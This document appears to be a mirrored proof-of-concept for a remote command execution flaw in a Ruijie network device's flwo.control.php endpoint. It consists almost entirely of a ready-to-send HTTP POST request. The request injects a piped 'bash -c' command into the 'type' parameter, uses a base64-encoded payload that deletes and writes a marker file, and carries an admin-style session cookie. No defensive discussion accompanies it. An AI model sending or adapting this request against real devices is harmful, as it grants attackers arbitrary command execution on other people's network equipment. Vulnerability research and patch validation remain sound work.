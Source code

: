# ruijie_flwo.control.php_rce

from: https://github.com/wy876/POC/blob/83ffd34e35da0bb8b1f8325dd4810e31b0d8a01a/%E9%94%90%E6%8D%B7%E7%BD%91%E7%BB%9Cflwo.control.php%E5%AD%98%E5%9C%A8RCE%E6%BC%8F%E6%B4%9E.md

2024.5.20 

```
POST /flow_control_pi/flwo.control.php?a=flowOpen HTTP/1.1
Host: localhost:4430
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 11
Accept: */*
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: user=21232f297a57a5a743894a0e4a801fc3; LOCAL_LANG_COOKIE=zh; UI_LOCAL_COOKIE=zh; sysmode=sys-mode%20gateway; supportMoreLan=no; RUIJIEID=h250c4c46emk9dv2mjmbk5rlc0; user=21232f297a57a5a743894a0e4a801fc3; isRedirect=true; authenType=local; accountType=write; showPatchDialog=true; module=macc; threeModule=seltab
Origin: https:// localhost:4430
Referer: https:// localhost:4430/rac_pi/surfilter_selservice.htm
Sec-Ch-Ua: " Not;A Brand";v="99", "Google Chrome";v="91", "Chromium";v="91"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: x
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

type=%7Cbash+-c+%27echo+cm0gLXJmIC4uLzEyMzMyMXF3ZS50eHQgJiYgZWNobyBGMDhiYmZiMkJDOGNlZUQ2ID4gLi4vMTIzMzIxcXdlLnR4dCAyPiYx+%7C+base64+-d+%7C+bash+%26%26+exit+0%27
```
